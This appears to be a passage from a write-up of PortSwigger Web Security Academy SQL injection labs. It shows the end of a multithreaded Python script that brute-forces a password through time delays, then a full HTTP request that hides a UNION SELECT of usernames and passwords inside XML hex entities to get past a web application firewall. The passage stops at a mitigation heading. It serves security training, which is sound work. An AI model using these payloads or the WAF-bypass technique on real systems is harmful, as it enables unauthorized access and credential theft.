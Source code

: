 ```python
    if elapsed > DELAY_THRESHOLD:
        with lock:
            result[position] = char
            print(f"[+] Found char at pos {position+1}: {char}")

for i in range(password_length):
    print(f"[*] Brute-forcing position {i+1}")
    with ThreadPoolExecutor(max_workers=max_threads) as executor:
        futures = [executor.submit(try_char, i, c) for c in charset]

        while not result[i]:
            pass  # spinlock

print(f"\n[✓] Final result: {''.join(result)}")

```

#### Lab: SQL injection with filter bypass via XML encoding

- After trying regular SQLi we see that our `attack is detected` which means that some WAF is blocking our requests, so here we could use a Hackverter to encode a payload and bypass WAF

```html
POST /product/stock HTTP/2
Host: <YOUR_LAB>.web-security-academy.net
Cookie: session=MgaYyQ8vBYclMnJmLI0LkAiJpq1hhzI9
Content-Length: 190
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Content-Type: application/xml
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: */*
Origin: https://<YOUR_LAB>.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://<YOUR_LAB>.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
    <storeId><@hex_entities>1 UNION SELECT username || '=' || password FROM users</@hex_entities></storeId>
</stockCheck>
```

### SQLi mitigation
